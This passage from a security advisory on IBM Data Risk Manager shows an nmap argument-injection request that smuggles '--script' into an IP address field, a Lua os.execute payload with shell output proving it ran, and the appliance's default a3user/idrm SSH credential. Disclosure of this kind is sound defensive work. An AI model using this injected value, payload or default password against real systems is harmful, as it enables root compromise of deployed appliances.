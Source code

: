 ```


--_Part_841_3176682485_2250831758
Content-Disposition: form-data; name="type"

1
--_Part_841_3176682485_2250831758
Content-Disposition: form-data; name="portRange"


--_Part_841_3176682485_2250831758
Content-Disposition: form-data; name="ipAddress"

--script=/home/a3user/agile3/patches/owned.enc
--_Part_841_3176682485_2250831758--
```
This will execute *"nmap --script=/home/a3user/agile3/patches/owned.enc"* and run our command:
```
[a3user@idrm-server ~]$ cat /home/a3user/agile3/patches/owned.enc
os.execute("/usr/bin/whoami > /tmp/testing")
[a3user@idrm-server ~]$ cat /tmp/testing
a3user
```
Note that all of these requests require an authenticated session as an administrator - but as shown in #1, this can be easily bypassed. The actual flow to achieve full unauthenticated remote code execution is a bit more convoluted, as we need to authenticate to both the web interface and the API, but the basic workings have been described above.


### #3: Insecure Default Password
* [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)
* CVE-TODO (not assigned yet)
* Risk Classification: Critical
* Attack Vector: Remote
* Constraints: None / N/A
* Affected Products / Versions:
  * IBM Data Risk Manager 2.0.1 to 2.0.3 confirmed to be vulnerable
  * IBM Data Risk Manager 2.0.4 to 2.0.6 likely to be vulnerable

#### Details:
The administrative user in the IDRM virtual appliance is *"a3user"*. This user is allowed to login via SSH and run sudo commands, and it is set up with a default password of *"idrm"*.  

When combined with vulnerabilities #1 and #2, this allows an unauthenticated attacker to achieve remote code execution as root on the IDRM virtual appliance, leading to complete system compromise.  

While IDRM forces the administrative user of the web interface (*"admin"*) to change its password upon first login, it does not require the same of *"a3user"*. 

### #4: Arbitrary File Download
* [CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')](https://cwe.mitre.org/data/definitions/22.html)
* CVE-TODO (not assigned yet)
* Risk Classification: High
* Attack Vector: Remote
* Constraints: Authentication Required
* Affected Products / Versions:
  * IBM Data Risk Manager 2.0.2 and 2.0.3 confirmed to be vulnerable
  * IBM Data Risk Manager 2.0.4 to 2.0.6 likely to be vulnerable
